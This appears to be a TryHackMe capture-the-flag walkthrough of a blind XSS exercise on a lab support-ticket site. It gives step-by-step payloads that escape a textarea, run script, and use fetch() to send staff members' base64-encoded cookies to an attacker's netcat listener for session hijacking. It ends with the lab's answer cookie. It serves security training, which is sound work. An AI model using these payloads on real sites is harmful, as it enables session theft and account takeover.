 # Blind XSS Practical

-  You’ll need to use the `AttackBox` using the **<ins>blue</ins>** button at the top of the page. 

- Once loaded, open the link below inside the AttackBox’s Firefox browser to view the target website.

```
https://THM_LAB_IP_ADDRESS.p.thmlabs.com
```

  ![image](https://user-images.githubusercontent.com/63872951/187017813-146b952b-9d44-4ecd-a940-2861ccdc5bc4.png)

# Steps to follow:

- Click on the `Customers` tab on the top navigation bar and click the `"Signup here"` link to create an account. 

  ![image](https://user-images.githubusercontent.com/63872951/187017889-1a09dfad-cdee-49de-8bad-5c903d7bd35f.png)

  ![image](https://user-images.githubusercontent.com/63872951/187018793-c11381dd-7983-410c-a6c8-e03aa1135670.png)

  
- Once your account gets set up, click the `Support Tickets` tab, which is the feature we will investigate for weaknesses. 

  ![image](https://user-images.githubusercontent.com/63872951/187018880-3d273273-8572-4676-9876-dffcdf793a1d.png)

- Try creating a support ticket by clicking the green `Create Ticket` button, enter the subject and content of just the word `"test"` and then click the blue Create Ticket button. 

- You'll now notice your new ticket in the ***list*** with an ***id*** number which you can click to take you to your newly created ticket. 

  ![image](https://user-images.githubusercontent.com/63872951/187018950-f3bb7f5a-d8b2-4467-8aa8-ed83cfeafd70.png)

  ![image](https://user-images.githubusercontent.com/63872951/187018980-03fe8f03-c437-4cc0-b936-7dfe0f77c62d.png)

- We will investigate how the ***previously entered text*** gets reflected on the page. 

- Upon viewing the page source, we can see the text gets placed inside a `textarea` tag.

  ![image](https://user-images.githubusercontent.com/63872951/187019068-47ecdd76-90cc-42ca-8e5f-03e553840916.png)

# Tampering

- Let's now go back and create another ticket. Let's see if we can escape the `textarea` tag by entering the following **[payload 1](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload1.js)** into the ticket contents:

  ```
  </textarea>test
  ```

- Again, opening the ticket and viewing the ***page source***, we've `successfully escaped` the `textarea` tag. 

  ![image](https://user-images.githubusercontent.com/63872951/187019217-dc231929-0240-41b9-9adc-865f2a803fd0.png)

- Let's now expand on this payload to see if we can `run JavaScript` and confirm that the ticket creation feature is ***vulnerable to an XSS*** attack. 

- Try another new ticket with the following **[payload 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload2.js)**:
  
  ```
  </textarea><script>alert('THM');</script>
  ```

- Now when you view the ticket, you should get an alert box with the `string THM`. 

  ![image](https://user-images.githubusercontent.com/63872951/187019314-1302c876-3992-484d-88cf-f405ab2e2eaa.png)

- We're going to now expand the payload even further and increase the vulnerabilities impact. 

- Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript.  
# Using NetCat

- Some helpful information to extract from another user would be their ***cookies***, which we could use to ***elevate our privileges*** by hijacking their `login session`. 

- To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. 

- Firstly, we'll need to set up a listening server to receive the information using `Netcat`

  ![image](https://user-images.githubusercontent.com/63872951/187019471-bcd89f02-cf06-49ac-8171-63c5c60a3e4f.png)
  
- Now that we've set up the method of receiving the exfiltrated information, let's build the [payload](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload3.js).
  ```
  </textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
  ```

# [Used Payloads](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads)

## Let's breakdown the payload to be used in this step:

- The `</textarea>` tag closes the textarea field. 

- The `<script>` tag opens open an area for us to write JavaScript.

- The `fetch()` command makes an HTTP request.

- `{URL_OR_IP}` is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

- `?cookie=` is the query string that will contain the victim's cookies.

- `btoa()` command base64 encodes the victim's cookies.

- `document.cookie` accesses the victim's cookies for the Acme IT Support Website.

- `</script>` closes the JavaScript code block.

- Now create another ticket using the **[above payload 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload3.js)**, making sure to swap out the `{URL_OR_IP:Port}` variable to your settings `(make sure to specify the port number as well for the Netcat listener)`. 

- Now, wait up to a minute, and you'll see the ***request*** come through containing the victim's cookies. Here's what I received:

  ![image](https://user-images.githubusercontent.com/63872951/187019934-f484c88e-c610-47f4-bd2f-f1abe27803ba.png)
  
- You can now base64 decode this information using a site like https://www.base64decode.org/, giving you the necessary information to answer the below question.


What is the value of the staff-session cookie?
```
4AB305E55955197693F01D6F8FD2D321
```
